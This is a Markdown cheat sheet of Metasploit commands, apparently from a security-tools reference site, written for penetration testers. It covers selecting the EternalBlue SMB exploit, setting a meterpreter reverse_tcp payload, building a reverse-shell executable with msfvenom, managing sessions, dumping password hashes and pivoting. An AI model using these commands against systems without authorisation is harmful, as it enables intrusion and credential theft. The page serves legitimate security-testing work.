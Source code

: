 ```yaml
---
title: Metasploit
slug: metasploit
description: Comprehensive penetration testing framework and exploit development platform.
categories: ["Exploitation", "Penetration Testing"]
bgColor: "bg-red-100"
textColor: "text-red-900"
top: true
---
```


## Metasploit Command Cheat Sheet {.cols-1}

### 🧰 Initialization & Help
| Function                   | Command                            | Example                            |
|----------------------------|-------------------------------------|------------------------------------|
| Start Metasploit Console   | `msfconsole`                        | `msfconsole`                        |
| Help and Usage Information | `metasploit -h` / `--help`         | `metasploit -h`                     |
| Exit Metasploit Console    | `exit`                              | `exit`                              |

## {.cols-2}

### 🔍 Searching & Selecting Modules
| Function                     | Command                           | Example                                                      |
|------------------------------|------------------------------------|--------------------------------------------------------------|
| Search Exploits              | `search <keyword>`                 | `search type:exploit name:smb`                               |
| Use a Specific Module        | `use <module_path>`                | `use exploit/windows/smb/ms17_010_eternalblue`               |
| Show Module Options          | `show options`                     | `show options`                                               |
| Show Payloads                | `show payloads`                    | `show payloads`                                              |
| Show Auxiliary Modules       | `show auxiliary`                   | `show auxiliary`                                             |
| Show Encoders                | `show encoders`                    | `show encoders`                                              |
| Show NOP Generators          | `show nops`                        | `show nops`                                                  |
| Show Post Modules            | `show post`                        | `show post`                                                  |

### ⚙️ Configuring Options
| Function                     | Command                           | Example                                                      |
|------------------------------|------------------------------------|--------------------------------------------------------------|
| Set Target Host              | `set RHOSTS <target_ip>`           | `set RHOSTS 192.168.1.1`                                     |
| Set Target Port              | `set RPORT <port>`                 | `set RPORT 445`                                              |
| Set Payload                  | `set PAYLOAD <payload>`            | `set PAYLOAD windows/meterpreter/reverse_tcp`               |
| Set Local Host               | `set LHOST <local_ip>`             | `set LHOST 192.168.1.100`                                    |
| Set Local Port               | `set LPORT <local_port>`           | `set LPORT 4444`                                             |
| Set Global Option            | `setg <option> <value>`            | `setg LHOST 192.168.1.100`                                   |
| Unset Global Option          | `unsetg <option>`                  | `unsetg LHOST`                                               |
| Check Target Vulnerability   | `check`                            | `check`                                                      |

### 🚀 Exploitation & Payloads
| Function                     | Command                            | Example                                                      |
|------------------------------|-------------------------------------|--------------------------------------------------------------|
| Run Exploit                  | `run` / `exploit`                   | `exploit`                                                    |
| Generate Payload             | `msfvenom -p <payload> -f <format> <options>` | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe` |

### 🖥️ Sessions Management
| Function                     | Command                            | Example                            |
|------------------------------|-------------------------------------|------------------------------------|
| View Active Sessions         | `sessions -l`                       | `sessions -l`                       |
| Interact with a Session      | `sessions -i <id>`                  | `sessions -i 1`                     |
| Background a Session         | `background`                        | `background`                        |
| Kill a Session               | `sessions -k <id>`                  | `sessions -k 1`                     |
| Save Active Sessions         | `sessions -s`                       | `sessions -s`                       |
| Load Saved Sessions          | `sessions -r <session_file>`        | `sessions -r my_sessions.txt`       |

## {.cols-1}

### 🔄 Post-Exploitation & Pivoting
| Function                     | Command                            | Example                            |
|------------------------------|-------------------------------------|------------------------------------|
| Run Post-Exploitation Script | `run <module_path>`                 | `run post/windows/gather/hashdump` |
| Add a Route Through Session  | `route add <subnet> <session_id>`  | `route add 192.168.2.0/24 1`       |
| Display Routes               | `route`                             | `route`                             |
| Pivot via a Session          | `setg SESSION <session_id>`         | `setg SESSION 1`                   |
